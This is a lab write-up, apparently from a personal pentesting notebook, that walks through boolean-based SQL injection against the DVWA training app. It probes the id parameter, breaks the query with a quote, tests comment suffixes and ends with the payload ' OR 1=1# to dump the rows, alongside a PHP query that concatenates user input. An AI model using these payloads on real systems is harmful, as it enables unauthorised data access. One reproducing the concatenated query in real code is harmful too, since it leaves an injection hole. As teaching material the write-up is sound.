 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - server-side-attack
  - sql-injection
  - boolean-based
  - dvwa
---
```

# 02 - Craft Exploit

## 2.1 - Vulnerability Detection

### 2.1.1 - Exploring The Parameter

#### 2.1.1.1 - Exceed The Upper and Lower Boundary Limits

We will try to determine the range of the data resides in the database to find the limits by exceeding the boundary range.

```
id=0
id=1
id=2
id=3
id=4
id=5
id=6
```

The start of the valid responses.

![[01 - Valid Response Input.png]]

Until reaching the end of the data of what is available in the database.

![[02 - Invalid Response Input.png]]

#### 2.1.1.2 - Testing Injection With Arithmetic Expression

This will provide an indicator if the numeric values perform mathematical operation. A probable factor of SQL injection however nothing works.

```
id=6-1
id=6-2
id=5+1
id=2*2
id=6/3
```

#### 2.1.1.3 - Invalidate Values

This will provide a clear space to perform data collection when exploiting the parameter.

Exceeding the boundary limits. ^33ca41

```
id=99
id=-1
```

Changing the numeric datatype to decimal.

```
id=1.0
id=1.5
```

Using strings. ^840ca1

```
id=a
id=abcdef
```

Using SQL logical operators `OR`, `AND`, `XOR`, `NOT` ^860e62

```
id=1 AND 1=1
id=1 AND 1=2
```

### 2.1.2 - Testing Injection With Strings

#### 2.1.2.1 - Break the Query

We will trigger a SQL error using `'` as a prefix to take advantage of unsantized user input.

![[03 - Break Query.png]]

#### 2.1.2.2 - Copying the Error Statement

First we breakdown the process step by step to figure it out how join the query to craft our final payload.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

Understand from the developer's perspective.

```
				   ''1'''    at line 1 (SO THIS IS THE ERROR)
```

Separate the single quotes.

```
(DELETE LEFTHANDSIDE SINGLE QUOTE) ' '1' ' '

                                     '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)

                                     '1''
```

Once you deleted the rest of the quotes.

```
                                     '1''    (AFTER ELIMATING THE REST WE HAVE THE REMAINING)
```

Highlight the single quote from the right hand side of the quotes.

```
                                     '1(')'  (MARKING THE SINGLE QUOTE WITH PARENTHESES, WHICH IS BREAKING THE SQL BACKEND)
```

Let's imagine the vulnerable PHP code snippet from the webserver backend processes it. This isn't necessary but it's just for understanding the process.

```php
$sql = "SELECT first_name, last_name FROM users WHERE id = '$id'";
```

We include a single quote as a prefix which causes the error. So we need to escape it by commenting it out with a suffix.

```sql
SELECT first_name, last_name FROM users WHERE id = '1'';
```

#### 2.1.2.3 - Joining the Query (Comment Out Query)

^a3394c

Now we need a suffix to terminate to get results. In MySQL we will terminate it with comments (`--`)  as a suffix. It will treat the rest of the snippets by interpreting it as SQL. We can leverage this craft the payload to exploit further.

```sql
'--
```

![[04 - Join Query with Hyphens.png]]

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Looks like it didn't work. Let's instead try adding the `#` as a suffix.

```sql
'#
```

![[05 - Query Joined via Hashtag.png]]

![[06 - Valid Response via Query.png]]

It responds normally. We can use this to exploit it. Before that let's try adding another variant to comment it out with `-- -`.

```sql
'-- -
```

![[07 - Query Joined via Comments.png]]

![[08 - Comments with Valid Response.png]]

Excellent now we can move on.

### 2.1.3 - Craft Payload

This is the syntax with a place holder of SQL payload.

```
'<SQL_Payload>#
```

### 2.1.4 - Retrieving Hidden Data

^9167dd

#### 2.1.4.1 - Exploit

Let's retrieve the hidden data.

```sql
' OR 1=1#
```

![[09 - Boolean-Based Query Payload.png]]

![[10 - Data Queried.png]]

You can switch to different SQL logical operators `OR`, `AND`, `XOR`, `NOT`. Experiment this on your own depending on web application you're up against. These techniques are possible due to the references I found online. I strongly recommend you to read them one by one because some SQL statement error responses may differ.

---
## References

### Backlinks

- [[02 - Boundaries|Helpers: In-Band SQL Queries]]